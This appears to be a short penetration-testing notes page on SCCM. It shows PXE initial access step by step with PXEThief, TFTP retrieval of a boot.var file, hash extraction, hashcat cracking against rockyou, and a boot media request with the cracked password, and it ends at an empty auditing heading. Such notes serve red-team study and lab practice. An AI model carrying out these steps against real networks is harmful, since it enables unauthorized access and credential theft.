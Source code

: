 ```yaml
---
description: System Center Configuration Manager
---
```


# SCCM

It enables centralized management of resources and systems. It offers  functions, like installing and uninstalling applications, configuring network and application parameters, and deploying patches and updates.

{% hint style="info" %}
SCCM enables IT administrators to handle a wide range of tasks from a single platform.
{% endhint %}

### <mark style="color:yellow;">PXE initial access</mark>

The `Pre-Boot Execution Environment` (`PXE`) is a mechanism for booting a computer over the network.

```sh
python .\pxethief.py 2 172.50.0.30
```

if the output says User configured password detected we need to crack thet password. By getting the boot.var&#x20;

```powershell-session
PS C:\Tools> tftp -i 172.50.0.30 GET "\SMSTemp\2024.05.19.13.06.09.0001.{48463D2D-ABD9-4697-8665-D75CDA255804}.boot.var" "2024.05.19.13.06.09.0001.{48463D2D-ABD9-4697-8665-D75CDA255804}.boot.var"
Successful transfer: 12776 bytes in 1 second(s), 12776 bytes/s
```

Then generate the hash with option 5

```powershell-session
PS C:\Tools> python .\pxethief.py 5 '.\2024.05.19.13.06.09.0001.{48463D2D-ABD9-4697-8665-D75CDA255804}.boot.var'
```

Crack the hash

<details><summary>Needed hashcat module</summary></details>

```shell-session
hashcat/hashcat -m 19850 --force -a 0 hashcat/hash /usr/share/wordlists/rockyou.txt
```

Request boot media

```powershell-session
python .\pxethief.py 3 '.\2024.05.19.13.06.09.0001.{48463D2D-ABD9-4697-8665-D75CDA255804}.boot.var' "Password123!"
```

### <mark style="color:yellow;">SCCM Auditing</mark>
